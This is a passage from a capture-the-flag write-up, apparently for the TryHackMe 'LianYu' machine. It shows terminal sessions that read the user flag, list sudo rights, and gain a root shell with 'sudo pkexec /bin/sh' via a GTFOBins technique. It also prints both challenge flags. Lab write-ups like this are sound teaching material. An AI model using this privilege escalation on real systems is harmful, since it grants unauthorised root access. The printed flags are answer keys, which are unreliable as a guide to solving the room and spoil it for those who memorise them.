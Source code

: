 ```
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ 
```
- Let's get the flag inside `user.txt`.
```
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
                        --Felicity Smoak
```
### Answer
```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

&nbsp;

### root.txt
- Let's check what files `slade` can execute without the password.
```
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
- We can go to GTFOBins to find an exploit.

![11](https://github.com/Knign/Write-ups/assets/110326359/fe4c1949-886e-4e6e-9601-9f8702dc9f97)

```
slade@LianYu:~$ sudo pkexec /bin/sh
# 
```
- We can now get the root flag.
```
# ls
root.txt
# cat root.txt  
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```
### Answer
```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```
